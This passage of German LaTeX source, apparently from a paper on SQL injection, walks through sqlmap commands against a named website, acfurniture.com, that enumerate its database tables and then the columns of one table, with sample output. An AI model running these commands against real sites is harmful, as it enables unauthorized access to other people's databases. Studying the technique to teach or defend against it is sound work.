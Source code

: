 \textbf{B. Tabellenname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname \cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/artikel.php?id=1225" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{table}[h]
	\centering
	\begin{tabular}{|l|}
		\hline
		{[}Date{]} {[}INFO{]} retrived: settings \\ \hline
		Database: acfurniture                    \\ \hline
		{[}4 tables{]}                           \\ \hline
		category                                 \\ \hline
		product                                  \\ \hline
		product\_hacked                          \\ \hline
		settings                                 \\ \hline
	\end{tabular}
	\caption{Ergebnis: Tabellenname}
\end{table}

Bisher wurde festgestellt, dass die Webseite \texttt{acfurniture.com} zwei Datenbanken aufweist, \texttt{acfurniture} und \texttt{information\_schema}. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten\cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/artikel.php?id=1225" -D acfurniture -T settings --columns
\end{LaTeXCode}

